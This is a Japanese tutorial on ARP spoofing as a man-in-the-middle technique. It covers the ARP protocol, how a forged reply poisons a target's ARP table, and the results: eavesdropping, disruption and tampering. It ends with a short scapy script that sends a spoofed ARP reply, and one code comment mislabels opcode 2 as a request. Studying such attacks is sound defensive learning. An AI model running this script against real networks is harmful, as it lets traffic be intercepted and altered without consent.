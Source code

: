 ### ArpSpoofingについて

#### おさらい
ARPはイーサネットにおいてIPアドレスからMACアドレスを取得するためのプロトコル。逆はRARP。

IPアドレス宛にパケットを送信したい場合に、IPアドレスと機器を紐づけるためにARP要求をブロードキャストで発信し、対応する機器がユニキャストで答えることでIPアドレスと機器が結び付く。

<span style="font-size: 80%">
イーサネット：ここではローカルエリアネットワーク(LAN)</span>

#### ARP Spoofingとは
中間者攻撃で用いられる方法の一種。同一ネットワーク上で攻撃対象のマシンとルータの間に割り込む方法。  

対象のARPテーブルを書き換えるために、攻撃者がルータのIPアドレスと自身のMACアドレスを使用したパケットを対象に送信することで、対象は攻撃者のマシンをルータだと誤認する。  

MACアドレスを書き換える攻撃なので同一ネットワーク上で成立する。

#### 問題点
* プロトコルがUDP / ステートレス
* 本人の確認が出来ない

#### 影響
* 通信の盗聴
* 通信の妨害
* 通信の改ざん

#### コーディング
簡単なパケットを作成して送信するのにすごく便利なpythonで書くことにする。

```python
from scapy.all import *
import sys

target_ip = sys.argv[1] # 送信先IPアドレス
target_mac = sys.argv[2] # 送信先MACアドレス
source_ip = sys.argv[3] # 送信元IPアドレス

# ARP要求パケット作成
frame = Ether(dst=target_mac)/ARP()
frame.op = 2 # 1 ARP要求 / 2 ARPリクエスト
frame.psrc = source_ip # 送信元
frame.pdst = target_ip # 送信先

# 送信
sendp(frame)
```

<s>実環境で使用する場合は継続的にパケットを送信しないと正しい組み合わせに戻ってしまうので注意が必要</s>

#### 参考にしたサイト
* [https://qiita.com/warito2323/items/bd3327073c0ca9205797]  
* [https://qiita.com/ryoma30/items/298c219addbb96e150e1]  
* [https://ja.wikipedia.org/wiki/ARP%E3%82%B9%E3%83%97%E3%83%BC%E3%83%95%E3%82%A3%E3%83%B3%E3%82%B0]  
* [https://scapy.readthedocs.io/en/latest/]  

